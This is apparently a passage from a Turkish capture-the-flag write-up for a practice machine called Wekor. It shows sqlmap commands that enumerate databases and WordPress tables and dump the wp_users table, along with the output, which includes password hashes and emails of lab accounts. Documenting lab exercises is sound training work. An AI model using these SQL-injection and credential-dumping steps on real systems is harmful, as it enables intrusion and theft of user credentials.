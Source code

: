 ````bash
sqlmap -r wekor.txt --dbs
````

````bash
[10:04:14] [INFO] fetching database names
available databases [6]:
[*] coupons
[*] information_schema
[*] mysql
[*] performance_schema
[*] sys
[*] wordpress
````

wordpress database'inin tablolarına baktım.

````bash
sqlmap -r wekor.txt -D wordpress --tables
````

````
Database: wordpress
[12 tables]
+-----------------------+
| wp_commentmeta        |
| wp_comments           |
| wp_links              |
| wp_options            |
| wp_postmeta           |
| wp_posts              |
| wp_term_relationships |
| wp_term_taxonomy      |
| wp_termmeta           |
| wp_terms              |
| wp_usermeta           |
| wp_users              |
+-----------------------+
````

wp_users tablosunda username ve hash olarak password bulunur. Dump edelim.

````bash
sqlmap -r wekor.txt -D wordpress -T wp_users --dump
````

Dump dosyasını kontrol edelim.

````bash
┌──(root㉿kali)-[~/…/output/wekor.thm/dump/wordpress]
└─# cat wp_users.csv 
ID,user_url,user_pass,user_email,user_login,user_status,display_name,user_nicename,user_registered,user_activation_key
1,http://site.wekor.thm/wordpress,$P$BoyfR2QzhNjRNmQZpva6TuuD0EE31B.,admin@wekor.thm,admin,0,admin,admin,2021-01-21 20:33:37,<blank>
5743,http://jeffrey.com,$P$BU8QpWD.kHZv3Vd1r52ibmO913hmj10,jeffrey@wekor.thm,wp_jeffrey,0,wp jeffrey,wp_jeffrey,2021-01-21 20:34:50,1611261290:$P$BufzJsT0fhM94swehg1bpDVTupoxPE0
5773,http://yura.com,$P$B6jSC3m7WdMlLi1/NDb3OFhqv536SV/,yura@wekor.thm,wp_yura,0,wp yura,wp_yura,2021-01-21 20:35:27,<blank>
5873,http://eagle.com,$P$BpyTRbmvfcKyTrbDzaK1zSPgM7J6QY/ (xxxxxx),eagle@wekor.thm,wp_eagle,0,wp eagle,wp_eagle,2021-01-21 20:36:11,<blank>
````
